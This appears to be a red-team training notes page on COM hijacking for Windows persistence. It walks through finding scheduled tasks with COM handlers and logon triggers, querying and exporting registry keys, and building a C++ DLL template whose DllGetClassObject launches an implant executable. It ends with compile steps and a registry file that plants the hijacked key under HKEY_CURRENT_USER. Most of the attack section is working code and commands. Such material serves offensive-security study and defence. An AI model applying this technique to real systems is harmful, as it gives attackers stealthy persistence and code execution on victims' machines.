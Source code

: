 # COM Hijacking

## <mark style="color:red;">COM</mark>

> The Microsoft Component Object Model (COM) is an interface standard that allows the software components to interact and communicate with each other’s code without knowledge of their internal implementation.

#### In simple words, COM is a system that helps developers build libraries which can co-operate with other apps developed with other languages.

OM objects are identified by their globally unique identifiers (GUIDs) known as class identifiers (CLSIDs) and interface identifiers (IIDs) and they are registered in registry hives.&#x20;

The merged registry hive HKCR contains the combined information of HKCU and HKLM.

```
HKEY_CURRENT_USER\Software\Classes\<CLSID>  (Per-User)

HKEY_LOCAL_MACHINE\Software\Classes\<CLSID> (System-Wide)
```

{% hint style="info" %}
COM usually lives in a DLL, sometimes as a EXE.&#x20;

It can also live on a remote machine.
{% endhint %}

When COM is present as a DLL, the process of COM loading looks like this:

![](<../../../.gitbook/assets/image (34).png>)

When COM is a EXE file the process will look like this:

![](<../../../.gitbook/assets/image (29).png>)

and if the COM object is on a remote machine:

![](<../../../.gitbook/assets/image (22).png>)

## <mark style="color:red;">COM Hijacking</mark>

One way to hijack the COM is by modifying the registry key in `HKEY_CUTRRENT_USER.`

![](<../../../.gitbook/assets/image (47) (1).png>)

to find hijackable COM objects we can look in scheduled tasks:

```
schtasks /query /xml > c:\RTO\PERS\01.USER\tasks.xml
```

we are looking for 2 things, in the `<Exec>` section there should be something called `<ComHandler>` instead of a binary path and in the  `<Triggers>` section we want a `<LogonTrigger>`.&#x20;

look for `<ComHandler>` in the output file, this will point to a specific class ID.&#x20;

after finding a suitable handler:

![](<../../../.gitbook/assets/image (20) (1).png>)

{% hint style="warning" %}
#### note that the delay here is 5 minutes.
{% endhint %}

query this ID in registry:

```
reg query "HKCR\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"

# to see if the key is in current user:
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"

# to see if the key is in local machine:
reg query "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"
```

![](<../../../.gitbook/assets/image (48).png>)

#### so the key is in local machine hive, if we put something in current user we can hijack that COM object.

we can export the target registry key as 64 bit :&#x20;

```
reg export "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" c:\tsk-orig.reg /y /reg:64
```

the output is something like this:

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}]
@="Work Folder Logon Trigger Class"

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InprocServer32]
@="C:\\Windows\\System32\\WorkFoldersShell.dll"
```

then use this template for COM hijacking:

{% code title="wrkFolderShell.cpp" %}
```cpp
/*

 Red Team Operator course code template
 COM hijacking template
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <Windows.h>
#include <combaseapi.h>


BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;    
	case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

HRESULT STDAPI DllGetClassObject(__in REFCLSID rclsid,
								__in REFIID riid,
								__deref_out LPVOID FAR* ppv) { 
	STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;
	
	CreateProcess(
				"c:\\RTO\\PERS\\implant\\implant.exe", 
				"", NULL, NULL, TRUE, 0, NULL, NULL, 
				&info, &processInfo);
	
	return S_OK;  
} 



/*

typedef HRESULT(WINAPI * tDllGetClassObject)(REFCLSID rclsid, REFIID riid, LPVOID* ppv);
tDllGetClassObject pDllGetClassObject;

HRESULT STDAPI DllGetClassObject(REFCLSID rclsid,
								 REFIID riid,
								 LPVOID FAR* ppv) { 
	STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;
	HMODULE hOrigDLL;
	
	CreateProcess(
				"c:\\RTO\\PERS\\implant\\implant.exe", 
				"", NULL, NULL, TRUE, 0, NULL, NULL, 
				&info, &processInfo);
	
	hOrigDLL = LoadLibrary("C:\\Windows\\System32\\WorkFoldersShell.dll");
	pDllGetClassObject = (tDllGetClassObject) GetProcAddress(hOrigDLL, "DllGetClassObject");
	if (!pDllGetClassObject)
		return S_FALSE;
	
	HRESULT hRes = pDllGetClassObject(rclsid, riid, ppv);
	
	return hRes;
} 
*/cpp
```
{% endcode %}

{% code title="wrkFolderShell.def" %}
```cpp
LIBRARY
EXPORTS
  DllGetClassObject PRIVATE
```
{% endcode %}

compile it with:

{% code title="compile.bat" %}
```batch
@ECHO OFF

cl.exe /W0 /D_USRDLL /D_WINDLL wrkFoldersShell.cpp wrkFoldersShell.def /MT /link /DLL /OUT:wrkFoldersShell.dll
```
{% endcode %}

```
compile.bat
```

![](<../../../.gitbook/assets/image (45).png>)

now the DLL is ready, we should implant it in the registry.

change the original key to `CURRENT_USER` and change the path to DLL:

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}]
@="Work Folder Logon Trigger Class"

[HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InprocServer32]
@="C:\\Users\rto\Desktop\\WorkFoldersShell.dll"
```

save the new registry then import it to the hive.

```
reg import c:\tsk.reg /reg:64
```

check out:

```
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InProcServer32" /reg:64
```

![](<../../../.gitbook/assets/image (49).png>)

now we have to wait for the user to relogin or reboot the machine.

## <mark style="color:red;">Resources</mark>

{% embed url="https://cyberstruggle.org/com-hijacking-for-persistence" %}

{% embed url="https://attackiq.com/2020/03/26/component-object-model-hijacking" %}

{% embed url="https://pentestlab.blog/2020/05/20/persistence-com-hijacking" %}
